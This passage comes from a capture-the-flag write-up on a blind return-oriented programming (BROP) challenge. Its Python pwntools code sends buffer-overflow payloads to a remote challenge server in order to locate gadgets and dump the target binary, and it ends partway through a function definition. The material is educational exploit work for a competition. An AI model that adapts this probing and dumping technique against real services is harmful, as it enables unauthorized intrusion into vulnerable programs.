 ```
pop rsi
pop r15
ret
```
and
```
pop rdi
ret
```

which will be useful later.

We got `brop_gadget = leak + 110`, the next one we need is the read_gadget, a gadget we will use to read and dump the whole program.

In order to do that we look for the only string we know for sure in the program, our brop.
We need this time to use a `pop rdi` gadget to send our addr to our read fortunately `brop_gadget + 9`
 do that for us. 
```python
def  get_read(brop_gadget, stop_gadget):
	for i in  range(0, 200):
		p = remote("challenges2.france-cybersecurity-challenge.fr", 4008)
		p.send(b'a' * 40 + p64(brop_gadget + 9) + p64(brop_gadget) + p64(stop_gadget + i))
  
		resp = p.recvall(timeout=0.5)
  
		if  b"\x5b\x5d\x41\x5c\x41\x5d\x41\x5e\x41\x5f\xc3"  in resp:
			print(resp)
			return stop_gadget + i
  
		p.close()

		p = remote("challenges2.france-cybersecurity-challenge.fr", 4008)
		p.send(b'a' * 40 + p64(brop_gadget + 9) + p64(brop_gadget) + p64(stop_gadget - i))
  
		resp = p.recvall(timeout=0.5)
  
		if  b"\x5b\x5d\x41\x5c\x41\x5d\x41\x5e\x41\x5f\xc3"  in resp:
			print(resp)
			return stop_gadget - i
  
		p.close()
  
	else:
		raise  ValueError('Failed')
```

We call this function, got our read_gadget `0x400500` and proceed to dump the binary

```python
def  read(addr_to_read, nb_read, brop_gadget, read_gadget):
	p = remote("challenges2.france-cybersecurity-challenge.fr", 4008)
	p.send(b'a' * 40 + p64(brop_gadget + 9) + p64(addr_to_read) + p64(read_gadget))
  
	resp = p.recvall(timeout=0.5)[85:].replace(b'\nWhat is your name ?\n>>> ', b'')
  
	l = len(resp)
  
	print(f"got {l} bytes, missing {nb_read - l - 1}")
  
	# we're appending a "\x00" because our read will stop at them which mean
	# we need to read until everything is read
	return nb_read - l - 1, resp[:nb_read] + b"\x00"

def  read_prog(brop_gadget, read_gadget):
```